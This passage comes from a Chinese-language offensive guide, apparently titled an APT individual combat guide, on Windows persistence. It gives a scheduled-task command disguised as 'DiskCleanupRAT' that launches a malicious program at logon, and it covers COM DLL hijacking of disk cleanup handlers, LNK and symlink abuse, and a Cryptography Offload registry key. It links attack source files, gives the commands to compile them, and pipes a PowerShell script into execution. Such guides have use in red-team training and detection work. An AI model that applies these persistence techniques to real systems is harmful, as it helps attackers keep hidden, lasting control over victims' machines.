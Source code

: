 ```powershell
schtasks /create /tn "DiskCleanupRAT" /tr "cmd.exe /c start /min 恶意程序路径" /sc onlogon
```

2、COM DLL劫持

```powershell
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches" /s
```

[cleanup.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/cleanup.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 cleanup.cpp -o cleanup.exe -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

```powershell
reg query "HKEY_CURRENT_USER\Software\Classes\CLSID\{8369AB20-56C9-11D0-94E8 -00AA0059CE02}" /s
```

### LNK文件

[wolf.ps1](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/wolf.ps1)

```powershell
Get-Content wolf.ps1 | PowerShell.exe -noprofile -
```

### 恶意符号链接

[symlink.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/symlink.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 symlink.cpp -o symlink.exe -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

### Cryptography

[crypto.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/crypto.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 crypto.cpp -o crypto.exe -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Cryptography\Offload" /s
```

### UserInitMprLogonScript
